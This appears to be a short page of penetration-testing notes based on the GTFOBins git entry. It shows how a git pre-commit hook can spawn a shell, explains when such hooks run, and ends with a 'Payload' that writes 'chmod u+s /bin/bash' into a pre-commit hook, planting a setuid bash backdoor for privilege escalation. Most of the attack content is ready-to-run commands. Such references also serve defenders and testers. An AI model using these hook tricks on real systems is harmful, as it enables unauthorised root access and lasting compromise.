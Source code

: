https://gtfobins.github.io/gtfobins/git/
Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.

```
TF=$(mktemp -d)
git init "$TF"
echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
git -C "$TF" commit --allow-empty -m x
```

# Pre-commit hooks
All pre-commit hooks are executed before a commit is finalized in Git. When you attempt to commit changes with `git commit`, the pre-commit hook is triggered. This is the first hook to be run when committing changes. It serves as a check or control point before the changes are actually committed to the repository.

Here's a closer look at how it works:

- If the pre-commit hook script exits with a non-zero status, Git aborts the commit process before it even starts. This is useful for running tests, code linting, or any other checks you want to pass before allowing a commit to be made.
- If the pre-commit hook script exits with a status of 0 (success), Git proceeds with the commit process.
### Payload
`echo 'chmod u+s /bin/bash' > ~/.git/hooks/pre-commit`
